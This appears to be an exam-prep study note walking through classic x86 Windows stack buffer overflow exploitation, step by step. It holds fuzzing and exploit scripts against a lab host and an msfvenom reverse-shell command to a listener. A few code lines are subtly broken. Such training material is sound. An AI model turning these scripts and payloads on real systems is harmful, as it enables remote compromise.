

# 💥 Buffer Overflow (x86 Windows) - Complete Guide

> [!info] The Exam Beast
> BOF is testing, but once you get it → guaranteed points.

---

## 📚 Prerequisites

- x86 assembly knowledge (basic)
- Python scripting
- Immunity Debugger or WinDbg
- mona.py script
- IDA Pro or Ghidra (disassemblers)

---

## 🎯 7-Step BOF Methodology



---

## 1️⃣ Fuzzing (Crash the App)

**Goal:** Crash application with increasing buffer sizes

### Python Fuzzing Script

```python
import socket
import sys

target = "192.168.1.100"
port = 9999

for size in range(100, 2000, 100):
    buffer = b"A" * size
    try:
        s = socket.socket()
        s.connect((target, port))
        s.send(buffer)
        s.close()
        print(f"[+] Sent {size} bytes")
    except:
        print(f"[-] Crashed at {size} bytes")
        break
```

**Result:** Note crash size (e.g., 2700 bytes)

---

## 2️⃣ Finding EIP (Extended Instruction Pointer)

**Goal:** Locate where EIP gets overwritten

### Generate Cyclic Pattern

```bash
# Using msfvenom
msfvenom -l patterns -n 3000

# Or use mona.py in Immunity Debugger
!mona pattern_create -length 3000
```

### Send Pattern to App

```python
import socket

pattern = "Aa0Aa1Aa2Aa3..."  # 3000 char cyclic pattern
try:
    s = socket.socket()
    s.connect(("192.168.1.100", 9999))
    s.send(pattern.encode())
    s.close()
except:
    pass
```

### Find EIP in Debugger

```
Immunity Debugger:
1. Run application
2. Run exploit (sends pattern)
3. App crashes
4. View EIP register → shows pattern (e.g., "42376F42")
5. Use mona to find offset:
   !mona pattern_offset -s Aa0Aa1Aa2... -hex 42376F42
```

**Result:** Offset to EIP (e.g., 2606 bytes)

---

## 3️⃣ Finding Offset to EIP

**Verify offset with Python**

```python
offset = 2606
payload = b"A" * offset + b"B" * 4  # B = 0x42424242

s = socket.socket()
s.connect(("192.168.1.100", 9999))
s.send(payload)
s.close()

# EIP should show: 42424242 (BBBB)
```

---

## 4️⃣ Overwriting EIP with JMP ESP

**Goal:** Point EIP to malicious code

### Find JMP ESP Address

```bash
# In Immunity Debugger:
!mona jmp -r esp

# Result: 0x625011AF is a JMP ESP instruction

# Verify in disassembly:
# 625011AF  FF E4                    JMP ESP
```

### Build Exploit with ROP

```python
import struct

offset = 2606
jmp_esp = 0x625011AF

# Pack address in little-endian
payload = b"A" * offset + struct.pack("<I", jmp_esp)

# Your shellcode here (after EIP):
payload += b"C" * (5000 - len(payload))

s = socket.socket()
s.connect(("192.168.1.100", 9999))
s.send(payload)
s.close()
```

---

## 5️⃣ Finding Bad Characters

**Goal:** Identify bytes that break exploit

### Test All Bytes

```python
bad_chars = b"\x00\x01\x02\x03...\xff"  # All bytes

offset = 2606
jmp_esp = 0x625011AF

payload = b"A" * offset
payload += struct.pack("<I", jmp_esp)
payload += bad_chars

s = socket.socket()
s.connect(("192.168.1.100", 9999))
s.send(payload)
s.close()
```

### Find Bad Chars in Memory

```
Immunity Debugger:
1. Run exploit with bad chars
2. App crashes
3. Right-click in hex window → "Follow in dump"
4. Look for truncated sequence
5. Note missing bytes (e.g., \x00, \x0a are common)
```

### Repeat Without Bad Chars

```python
# Regenerate bad_chars excluding found ones
# If \x00 and \x0a are bad:
bad_chars = bytes(range(256)) - bytes([0x00, 0x0a])
```

---

## 6️⃣ Generating Shellcode

**Create payload without bad characters**

```bash
# MSFvenom (exclude bad chars)
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -b "\x00\x0a" -f python

# Output:
# buf =  b""
# buf += b"\xbb\x06\x84c\xe6..."
```

### Alternative: Custom Shellcode

If reverse shell too large, use:
- `msfvenom` with smaller payload (exec calc, bind shell)
- Or write custom assembly

---

## 7️⃣ Building Final Exploit

```python
import socket
import struct

target = "192.168.1.100"
port = 9999

offset = 2606
jmp_esp = 0x625011AF

# Shellcode from msfvenom (calc.exe)
shellcode = (
    b"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x1b..."
)

# Padding
padding = b"\x90" * 16  # NOP sled

payload = b"A" * offset
payload += struct.pack("<I", jmp_esp)
payload += padding
payload += shellcode

print(f"[*] Exploit size: {len(payload)}")

try:
    s = socket.socket()
    s.connect((target, port))
    s.send(payload)
    s.close()
    print("[+] Exploit sent!")
except Exception as e:
    print(f"[-] Error: {e}")
```

---

## 📋 BOF Checklist

- [ ] Identify vulnerable application
- [ ] Fuzz to find crash size
- [ ] Generate cyclic pattern
- [ ] Find EIP offset
- [ ] Verify offset (send BBBB)
- [ ] Find JMP ESP address
- [ ] Find bad characters
- [ ] Generate clean shellcode
- [ ] Build exploit
- [ ] Test locally in VM
- [ ] Document offset, addresses, bad chars

---

## 🛠️ Tools Needed

| Tool | Purpose |
|------|---------|
| **Immunity Debugger** | Step through, find addresses |
| **mona.py** | Pattern generation, gadget finding |
| **msfvenom** | Shellcode generation |
| **WinDbg** | Alternative debugger |
| **Python** | Exploit scripting |

---

## 💡 Pro Tips

> [!tip] ASLR & DEP
> If enabled, needs ROP. If disabled, JMP ESP = easier.

> [!tip] NOP Sled
> Buffer of NOPs (\x90) before shellcode for safety margin.

> [!tip] Test in VM First
> Always test locally before exam.

> [!warning] Time Sink
> BOF can take hours if you don't know offsets. Document everything.

---

**Related Notes:**
- [[05-Tools/MSFvenom-Payloads|💣 MSFvenom Payloads]]
- [[02-Linux/Shells-and-Payloads|💀 Shells & Payloads]]

---
